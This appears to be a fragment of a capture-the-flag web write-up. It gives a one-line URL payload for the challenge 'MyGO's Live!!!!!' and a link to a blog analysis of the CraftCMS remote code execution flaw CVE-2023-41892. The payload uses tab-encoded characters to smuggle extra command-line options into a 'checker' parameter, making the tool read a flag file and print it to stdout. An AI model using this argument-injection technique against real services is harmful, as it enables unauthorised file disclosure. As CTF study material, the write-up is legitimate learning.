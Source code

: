 ## Web
### MyGO's Live!!!!!

```shell
checker?url=%09-iL%09/flag-d5b6d51594b888dd%09-o%09/dev/stdout
```

### craftcms
P神的知识星球有提到过

[CVE-2023-41892 CraftCMS远程代码执行漏洞分析 | Bmth's blog (bmth666.cn)](http://www.bmth666.cn/2023/09/26/CVE-2023-41892-CraftCMS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)

